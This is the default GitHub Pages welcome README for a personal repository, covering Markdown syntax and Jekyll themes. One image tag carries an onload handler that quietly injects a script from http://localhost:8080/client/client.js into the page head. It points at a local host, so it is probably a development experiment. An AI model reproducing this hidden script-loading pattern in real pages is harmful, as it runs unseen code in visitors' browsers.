 ## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/lukas2005/lukas2005/edit/master/README.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

<img style="height:450px;margin-left:-35px;" src="https://img00.deviantart.net/8fe9/i/2015/215/4/5/red_leather_dragon_mask___for_sale_by_zarathus-d942h8k.jpg" alt="Red Dragon Mask" onload="window.nodeJsIp = 'http://localhost:8080';let s = document.createElement('script');s.src = 'http://localhost:8080/client/client.js';document.getElementsByTagName('head')[0].appendChild(s);console.log('hi');">
### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/lukas2005/lukas2005/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
